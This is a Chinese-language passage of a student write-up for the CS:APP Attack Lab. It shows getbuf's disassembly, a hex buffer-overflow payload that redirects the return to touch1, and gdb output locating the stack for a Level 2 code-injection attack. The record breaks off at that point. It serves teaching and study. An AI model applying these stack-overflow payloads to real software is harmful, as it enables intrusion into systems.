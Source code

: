 # Attack Lab

## 准备工作

直接反编译就可得到所有函数的地址，下文不再赘述。

注意在小端序机器上，地址要按照小端序写。

payload指的是填进缓冲区的字符串（字节）。

函数`getbuf`的反编译代码：

```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
```

可以看到缓冲区大小为40字节(0x28)。

## Part.1 Code Injection Attacks

攻击ctarget

### Lv.1

目标是从getbuf返回到touch1。缓冲区内存区域往高位紧接着就是返回地址，直接覆盖掉就行。

```
20 20 20 20 20 20 20 20
20 20 20 20 20 20 20 20
20 20 20 20 20 20 20 20
20 20 20 20 20 20 20 20
20 20 20 20 20 20 20 20 /* 填充40字节的缓冲区 */
c0 17 40 00 00 00 00 00 /* touch1函数的地址 */
```

### Lv.2

目标是从getbuf返回到touch2，并传递cookie作为参数。步骤如下：

1. 让getbuf返回到payload中的代码
2. payload中的代码将cookie写入%rax
3. 从payload返回到touch2

首先我们需要知道payload中代码的地址。gdb走起

```
# gdb ./ctarget
(gdb) break Gets
Breakpoint 1 at 0x401a40
(gdb) r -q
Starting program: /home/cmdblock/Desktop/target1/ctarget -q
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000
Cookie: 0x59b997fa

Breakpoint 1, 0x0000000000401a40 in Gets ()
(gdb) print /x $rdi
$1 = 0x5561dc78
(gdb) print /x $rsp
$2 = 0x5561dc70
```
